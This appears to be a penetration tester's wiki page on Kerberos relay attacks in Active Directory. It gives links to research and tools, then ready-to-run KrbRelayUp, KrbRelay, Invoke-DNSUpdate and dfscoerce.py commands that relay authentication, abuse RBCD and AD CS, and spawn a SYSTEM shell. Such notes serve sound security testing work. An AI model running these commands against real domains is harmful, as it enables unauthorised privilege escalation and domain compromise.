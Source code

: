 # Kerberos Relay

- [https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
- [https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)




## mitm6 + Kerberos DNS Relay + AD CS ESC8

- [https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)




## Tools



### KrbRelay

- [https://github.com/cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)
- [https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9](https://gist.github.com/tothi/bf6c59d6de5d0c9710f23dae5750c4b9)
- [https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html](https://icyguider.github.io/2022/05/19/NoFix-LPE-Using-KrbRelay-With-Shadow-Credentials.html)



### KrbRelayUp

- [https://github.com/Dec0ne/KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp)
- [https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/](https://www.microsoft.com/security/blog/2022/05/25/detecting-and-preventing-privilege-escalation-attacks-leveraging-kerberos-relaying-krbrelayup/)
- [https://github.com/BronzeBee/DavRelayUp](https://github.com/BronzeBee/DavRelayUp)
- [https://github.com/Dec0ne/DavRelayUp](https://github.com/Dec0ne/DavRelayUp)


#### RELAY

Relay authentication to LDAP(S) with automatic machine creation and configure RBCD:

```
PS > .\KrbRelayUp.exe RELAY [-d|--Domain megacorp.local] [-dc|--DomainController DC01.megacorp.local] [-m|--Method RBCD] -c|--CreateNewComputerAccount [-cn|--ComputerName FAKEMACHINE$] [-cp|--ComputerPassword Passw0rd!]
```

Perform RBCD with UPNs:

```
PS > .\KrbRelayUp.exe RELAY -u2u -cn j.doe -cp Passw0rd!
```

{% content-ref url="/pentest/infrastructure/ad/kerberos/delegation-abuse/rbcd.md#rbcd-with-upns" %}
[rbcd.md](rbcd.md)
{% endcontent-ref %}


#### SPAWN

Execute a command as NT AUTHORITY\\SYSTEM via RBCD abuse:

```
PS > .\KrbRelayUp.exe SPAWN [-m|--Method RBCD] [-i|--Impersonate administrator] [-s|ServiceName PwnSVC] [-sc|--ServiceCommand C:\Windows\System32\cmd.exe] -cn|--ComputerName FAKEMACHINE$ -cp|--ComputerPassword Passw0rd! [or -ch|--ComputerPasswordHash fc525c9683e8fe067095ba2ddc971889]
```

{% hint style="warning" %}
As [@ShitSecure](https://twitter.com/ShitSecure) mentioned, executing the binary as a .NET Reflective Assembly from PowerShell will fail because the PowerShell process will have already initialized the security parameters for COM itself after having been launched, so `CoInitializeSecurity` will not contain those new parameters attempted to set by KrbRelay(Up).
{% endhint %}



### KrbRelay-SMBServer

- [https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html](https://www.tiraniddo.dev/2024/04/relaying-kerberos-authentication-from.html)
- [https://github.com/decoder-it/KrbRelay-SMBServer](https://github.com/decoder-it/KrbRelay-SMBServer)
- [https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx)
- [https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)

sc config LanmanServer start= auto & sc start LanmanServer & sc start srv2 & sc start srvnet
sc config LanmanServer start= disabled & sc stop LanmanServer & sc stop srv2 & sc stop srvnet

```
PS > Invoke-DNSUpdate -DNSName adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -DNSData 10.10.13.37
PS > Set-Service -Name LanmanServer -StartupType Disabled; Stop-Service -Name LanmanServer -Force; Stop-Service -Name srv2 -Force; Stop-Service -Name srvnet -Force
PS > .\KrbRelay.exe -spn HTTP/ADCS.megacorp.local -redirecthost adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv -adcs DomainController -listenerport 445
$ dfscoerce.py -d megacorp.local -u snovvcrash -k -no-pass adcs1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
PS > Set-Service -Name LanmanServer -StartupType Automatic; Start-Service -Name LanmanServer; Start-Service -Name srv2; Start-Service -Name srvnet
```
